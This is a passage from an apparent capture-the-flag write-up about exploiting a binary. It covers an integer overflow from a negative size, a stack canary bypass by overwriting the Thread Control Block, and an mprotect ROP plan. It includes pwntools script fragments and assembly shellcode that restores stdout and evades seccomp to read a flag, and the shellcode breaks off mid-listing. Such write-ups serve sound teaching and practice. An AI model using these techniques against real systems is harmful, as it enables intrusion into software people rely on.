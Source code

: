 ```c
}

```

There's a plain integer overflow as there is no check for size being less than zero and size is `int`.

But there's a canary , how do we bypass it?

So here's the thing , we are getting write over a region known as `Thread Control Block`. This is the place from where canary is actually loaded into the fs segment register for the stack check fail.
{: .notice}

Now we have plain overflow and we can assume there's no canary , cool isn't it?

Well what next?

### ROP And Shellcode To Grab That Flag

The first thing that comes to mind is , call mprotect on the region we have overflow , and then shellcode.
Well , thats it.

Let's script it till there.

```python
    move_on()
    gdb.attach(io)
    sla("service?(y/n)\n",'y')
    #Trigger integer overflow with type confusion bug to get large write on stack
    sla("feedback: ",'-1')

```

But as you would have noticed , a weird function `supress_stdout` is being called which redirects stdout to `/dev/null`. So how do we get around it? Simple , you just have to mimic it.

Now all we have to do is , write a simple shellcode. 

Wait , one more thing , what about those seccomp constraints which let you read only from fd `0` and write only to fd `1`.

1. To open flag at fd `0` , just close fd 0 and open flag , it will open at fd **0** itself.
2. Now you can read the flag at fd **0** and write it to stdout.


Here's the remaining script.


```python
    #The shellcode first reopens stdout by mimicing the mechanism of supress_stdout function
    #It does so by calling dup2 , changing file descriptor of stdout back to 1
    #Then we close stdin so that flag gets opened at fd 0.
    #After that , we call openat syscall to open flag at fd 0, as open is not allowed
    #Finally we read flag in memory and write it out
    shellcode = asm('''
            xor rdi,rdi
            mov edi,DWORD PTR [rbp-0x88]
            mov rsi,1
            mov rax,33
            syscall
            mov rax,3
            syscall
            mov rax,3
            mov rdi,0
            xor rsi,rsi
            xor rdx,rdx
            syscall
            mov rax,257
            mov rdi,0xffffff9c
```